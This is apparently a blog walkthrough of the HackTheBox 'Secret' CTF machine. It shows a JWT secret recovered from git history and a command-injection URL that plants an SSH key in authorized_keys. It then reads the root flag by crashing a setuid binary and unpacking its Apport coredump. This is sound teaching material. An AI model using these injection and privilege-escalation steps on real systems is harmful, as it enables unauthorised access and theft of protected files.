 ```yaml
---
title: "HackTheBox: \"Secret\" Walkthrough"
date: 2022-04-25T00:22:15+02:00
tags: ['hackthebox', 'ctf']
slug: "hackthebox-secret-walkthrough"
draft: false
---
```


# Foothold

As usual, this machine has a landing page - we will find a ZIP file there,
which we download, of course. We will immediately notice the `.git` folder,
so let's use `git log` to inspect what happened there. One of the commit
messages sounds interesting:

> removed .env for security reasons

Let's inspect the changes introduced by this commit:

```diff
-TOKEN_SECRET = gXr67TtoQL8TS...
+TOKEN_SECRET = secret
```

This sounds a lot like a real world scenario - left over credentials in a
git repository are not unheard of.

Now, let's explore the contents of the ZIP file further. In the file `private.js`
we find this particular interesting snippet:

```js
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;

    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

# User

The path is clear: Forge a JWT token for user "theadmin" and use the "file"
query parameter to execute arbitrary commands:

```plain
http://10.10.11.120:3000/api/logs?file=x;
mkdir ~/.ssh;chmod 700 ~/.ssh;
echo "ssh-rsa ..." > ~/.ssh/authorized_keys;
chmod 600 ~/.ssh/authorized_keys;
```

Note that I've added line breaks for better readability. Also note that before
sending this request, the query parameter must be URL encoded - otherwise the
command will break, for example because the `+` character will be interpreted as space.
Anway, we can now login via SSH and are done with the first part.

*NB: I **always** set the permissions like this, because I once had a machine were it didn't work
when the permissions were not exactly like this - and debugging this cost me a long time.*

# Root

Up next: Privilege escalation. As usual, I'm relying on LinPEAS to give me a hint - which it does.
LinPEAS shows us that `/opt/count` is a setuid binary. As such, it can read every file on the system.
The output is some kind of word/line count, so we don't get access to the file contents.

Now, everything that I tried to interfere with the execution of this binary failed. Or, to be more
precise, everytime I tried something (like running the binary with gdb), the setuid bit gets dropped.
Guess that makes sense, otherwise we could also attach to binaries like `sudo`...

Conveniently, we'll find the source code of the binary next to it. Here is the interesting part
(in the lines before the following snippet, the input file is read):
```c
// drop privs to limit file write
setuid(getuid());
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
printf("Save results a file? [y/N]: ");
res = getchar();
```
Let's look at the manpage of prctl:
> **PR_SET_DUMPABLE:** Set  the  state  of  the  "dumpable"  flag, which determines whether core dumps are
produced for the calling process upon delivery of a signal whose  default  behavior
is to produce a core dump. [...]
Normally, this flag is set to 1.   However,  it  is  reset  to  the  current  value
contained  in  the  file /proc/sys/fs/suid_dumpable (which by default has the value
0), in the following circumstances:
The process's effective user or group ID is changed. [...]

So again, we have a way forward: Run the binary, read `/root/root.txt`, and
as soon as the prompt appears, produce a coredump using:
```plain
kill -SIGSEGV $(pidof count)
```
Now, were can we find that coredump? Let's check:
```plain
$ cat /proc/sys/kernel/core_pattern
|/usr/share/apport/apport %p %s %c %d %P %E
```
We see that this machine uses [Apport](https://wiki.ubuntu.com/Apport).
Apport comes with some tools, one is:
> **apport-unpack**: Unpack a report into single files (one per attribute). This is most useful for extracting the core dump. Please see the manpage for further details. This tool is not necessary when working with Launchpad, since it already splits the parts into separate attachments.

All right - let's try it:
```plain
$ apport-unpack /var/crash/_opt_count.1000.crash tmp/
$ strings tmp/CoreDump
```
That's it! :smile:

# Conclusion and Learnings

I was able to get the user flag really quick - having credentials in a git
repository and forging a JWT token was not too interesting.
But the privilege escalation took me quite a bit, as I lost a lot of time
on trying to *somehow* attach to the binary. Only after I was out of ideas,
I looked in the folder where the binary is to find the source code - and the
obvious clue. From there, finding out how to provoke a segfault and read
the coredump also took some time, but could be done with a few searches.
